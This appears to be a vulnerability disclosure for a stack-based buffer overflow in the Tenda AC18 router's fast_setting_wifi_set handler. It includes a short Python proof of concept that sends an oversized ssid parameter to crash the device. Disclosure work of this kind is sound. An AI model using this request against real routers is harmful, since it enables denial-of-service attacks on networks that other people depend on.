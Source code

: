 # Tenda Router AC18 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fast_setting_wifi_set`.

In function `fast_setting_wifi_set` it reads user provided parameter `ssid`  into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/192_1/vlun.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack** .
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
